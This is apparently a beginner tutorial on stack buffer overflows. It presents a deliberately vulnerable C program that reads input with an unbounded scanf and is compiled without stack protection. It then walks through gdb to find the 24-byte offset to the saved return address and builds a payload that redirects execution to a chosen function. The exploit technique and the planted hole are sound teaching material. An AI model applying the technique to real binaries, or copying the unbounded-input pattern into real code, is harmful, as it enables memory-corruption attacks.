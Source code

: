 ### Introduction

To gain control of the program flow we need to take control of the instruction pointer.
For this we can use the `leave` instruction from a function.
When entering in a function a stack frame is created.
The instruction pointer is `push` to the stack to save it  and the base instruction is also `push`
At the end of the function the `leave` instruction will restore the stack frame, by using `pop` to restore the base pointer
and the `ret` instruction will restore the instruction pointer by using `pop` again

```
; enter
push %rip
push %rbp

; leave
mov   %rbp, %rsp     # rsp = rbp,  mov  rsp,rbp in Intel syntax
pop   %rbp

; ret
pop %rip
```


### Compute length to override the instruction pointer saved into the stack

We already saw the bases of overflow [here](basic.md).
Let's see how we can control the instruction point.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

void flow_controled() {
  printf("GG you successfully control the program flow \n");
}

int main () {
  char buf[16];
  scanf("%s", buf);
  return 0;
}

```

Just compile it with : 
```
gcc main.c -fno-stack-protector
```

You probably already see the vuln, `scanf` do not check any length for buf.
We found are vulnerability, let's exploit it.

run you binary with gdb
and break on main and run the program

```
$ gdb ./a.out
>>> b main
Breakpoint 1 at 0x---------
>>>  r
```

So we just put a breakpoint tell gdb to break the binary flow at the lib c entry point main, basically the begining of the program.
We can now search for the address of the flow_controled function, we want to redirect the program flow here, remember. 
```
>>> x flow_controled
0x555555555149 <flow_controled>:	0xe5894855
```
`0x555555555149` nice, we have the address. Now we need to put it where the old instruction pointe is, like that the ret will pop this value instead of the original one into the instruction pointer.

We need first the address of our `buf` variable.
Simple let's go after the `scanf` called and inspect the stack to get the address of `buf`
To do so use `ni`, meaning next instruction until the scanf called have been done.
You can check the flow by using `disass` command

```
   0x000055555555515c <+0>:	push   %rbp
   0x000055555555515d <+1>:	mov    %rsp,%rbp
=> 0x0000555555555160 <+4>:	sub    $0x10,%rsp
   0x0000555555555164 <+8>:	lea    -0x10(%rbp),%rax
   0x0000555555555168 <+12>:	mov    %rax,%rsi
   0x000055555555516b <+15>:	lea    0xec4(%rip),%rdi        # 0x555555556036
   0x0000555555555172 <+22>:	mov    $0x0,%eax
   0x0000555555555177 <+27>:	call   0x555555555040 <scanf@plt>
   0x000055555555517c <+32>:	mov    $0x0,%eax
   0x0000555555555181 <+37>:	leave  
   0x0000555555555182 <+38>:	ret    
>>> ni
Dump of assembler code for function main:
   0x000055555555515c <+0>:	push   %rbp
   0x000055555555515d <+1>:	mov    %rsp,%rbp
   0x0000555555555160 <+4>:	sub    $0x10,%rsp
=> 0x0000555555555164 <+8>:	lea    -0x10(%rbp),%rax
   0x0000555555555168 <+12>:	mov    %rax,%rsi
   0x000055555555516b <+15>:	lea    0xec4(%rip),%rdi        # 0x555555556036
   0x0000555555555172 <+22>:	mov    $0x0,%eax
   0x0000555555555177 <+27>:	call   0x555555555040 <scanf@plt>
   0x000055555555517c <+32>:	mov    $0x0,%eax
   0x0000555555555181 <+37>:	leave
   0x0000555555555182 <+38>:	ret
>>> ni
>>> ni
>>> ni
>>> ni
   0x000055555555515c <+0>:	push   %rbp
   0x000055555555515d <+1>:	mov    %rsp,%rbp
   0x0000555555555160 <+4>:	sub    $0x10,%rsp
   0x0000555555555164 <+8>:	lea    -0x10(%rbp),%rax
   0x0000555555555168 <+12>:	mov    %rax,%rsi
   0x000055555555516b <+15>:	lea    0xec4(%rip),%rdi        # 0x555555556036
   0x0000555555555172 <+22>:	mov    $0x0,%eax
=> 0x0000555555555177 <+27>:	call   0x555555555040 <scanf@plt>
   0x000055555555517c <+32>:	mov    $0x0,%eax
   0x0000555555555181 <+37>:	leave
   0x0000555555555182 <+38>:	ret
>>> ni


```

It should now wait for your input.
Just enter some values, like `BBBBBBB`, since b is 0x42, it's pretty easy to find it on the stack :)
Let entrer thoses caracteres and inspects the stack, to do so you can use `x` aka examine command
like

```
>>> x/20x $rsp
0x7fffffffe0b0:	0x42424242	0x00424242	0x00000000	0x00000000
0x7fffffffe0c0:	0x55555190	0x00005555	0xf7e0d152	0x00007fff
0x7fffffffe0d0:	0xffffe1b8	0x00007fff	0xf7e0cf73	0x00000001
0x7fffffffe0e0:	0x5555515c	0x00005555	0x00000000	0x00000010
0x7fffffffe0f0:	0x00000000	0x00000000	0xe3d9f304	0x3458e3ea
```

Yes we can see our `0x42`, so we have the address of `buf` now.
`0x7fffffffe0b0` one good step. 

Now let's find about the instruction pointer. to do so, use next instruction to go after the `leave` instruction
```
>>> ni
   0x000055555555515c <+0>:	push   %rbp
   0x000055555555515d <+1>:	mov    %rsp,%rbp
   0x0000555555555160 <+4>:	sub    $0x10,%rsp
   0x0000555555555164 <+8>:	lea    -0x10(%rbp),%rax
   0x0000555555555168 <+12>:	mov    %rax,%rsi
   0x000055555555516b <+15>:	lea    0xec4(%rip),%rdi        # 0x555555556036
   0x0000555555555172 <+22>:	mov    $0x0,%eax
   0x0000555555555177 <+27>:	call   0x555555555040 <scanf@plt>
   0x000055555555517c <+32>:	mov    $0x0,%eax
   0x0000555555555181 <+37>:	leave
=> 0x0000555555555182 <+38>:	ret
```

In other words, we just copy the base pointer into the stack pointer, and restore the base pointeur with the value stored in the stack.
Now the stack frame have been restore and the stack pointer should point to the old instruction pointer value on stack
So we can find the old instruction pointer address on stack by examine the stack pointer

```
>>> x $rsp
0x7fffffffe0c8:	0xf7e0d152
```

Yeah !!! 
So we have the buf address `0x7fffffffe0b0` and the address where the instruction pointer is stored `0x7fffffffe0c8`
With the difference between them we know the amount of bytes to write before overriding the stored instruction pointer value.

`0x7fffffffe0c8 - 0x7fffffffe0b0 = 24`


### Redirecte program flow

We have the length until the instruction pointer, we just need to create the payload
Basically from buffer to `rip` store on the stack.

Our payload will now be like since we do not have anything else on the stack except our buf.

| 16 bytes for buf | 8 bytes for the old base pointer  | flow_controler addr in little endian |
| -----------------|-----------------------------------|--------------------------------------|
| BBBBBBBBBBBBBBBB |               BBBBBBBB            |      \x49\x51\x55\x55\x55\x55        |


We just override the instruction pointer on the stack with the value we want, here with the address of the flow_controled function.
After that the `leave` instruction restore the stack frame and make the stack pointer point into the old instruction pointer where we replace with the flow_controled address.
Then the `ret` instruction will use a pop instruction to load the stored instruction pointer on the stack into the instruction pointer 
We just control the instruction pointer to redirect the program flow where we want ! :)

